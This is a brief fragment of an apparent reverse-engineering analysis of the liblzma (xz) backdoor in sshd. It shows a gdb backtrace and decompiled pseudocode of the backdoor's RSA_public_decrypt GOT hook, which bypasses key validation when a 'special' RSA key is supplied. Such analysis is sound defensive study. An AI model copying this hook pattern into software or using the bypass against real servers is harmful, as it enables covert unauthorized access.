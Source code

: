 Now connect via https://gist.github.com/keeganryan/a6c22e1045e67c17e88a606dfdf95ae4

```
...
Thread 3.1 "sshd" hit Breakpoint 1, 0x00007ffff73d1d00 in ?? () from /lib/x86_64-linux-gnu/liblzma.so.5
(gdb) bt
#0  0x00007ffff73d1d00 in ?? () from /lib/x86_64-linux-gnu/liblzma.so.5
#1  0x00007ffff73d1ae7 in ?? () from /lib/x86_64-linux-gnu/liblzma.so.5 <-- Llzma_index_prealloc_0 (offset 0x48 in vtable)
#2  0x00005555556bdd00 in ?? ()
#3  0x0000000100000004 in ?? ()
#4  0x00007fffffffdeb0 in ?? ()
#5  0x00000001f74b5d7a in ?? ()
#6  0x0000000000000000 in ?? ()
```

##### RSA_public_decrypt GOT hook (Llzma_index_prealloc_0)
```c
  /** the following happens during pubkey login **/
  
  params[0] = 1;                                // should we call original?
  // this call checks if the supplied RSA key is special
  result = installed_func_1(rsa_key, global_ctx, params); 
  // if still 1, the payload didn't trigger, call the original function
  // if 0, bypass validation
  if ( params[0] ) 
    return real_RSA_public_decrypt(flen, from, to, rsa_key);
  return result;
```
